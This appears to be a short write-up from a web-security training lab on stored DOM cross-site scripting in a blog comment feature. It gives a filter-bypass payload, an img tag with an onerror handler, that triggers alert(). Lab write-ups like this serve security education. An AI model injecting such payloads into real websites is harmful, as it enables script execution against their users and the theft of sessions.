 ![picture 15](/assets/images/c7713f051759970a81e3f0ef868d5f6f865f5ffd97833cb33e3dceba7e2d5d27.png)  

Alert has fired! Lab has been solved.

# Stored DOM XSS
> This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the alert() function.

Payload:
```
<><img src/onerror=alert(1)>
```

![picture 17](/assets/images/0075e2106837b569824cb6139dc2c6b307af69c20f9f5cc23656d8bcf06569b4.png)  
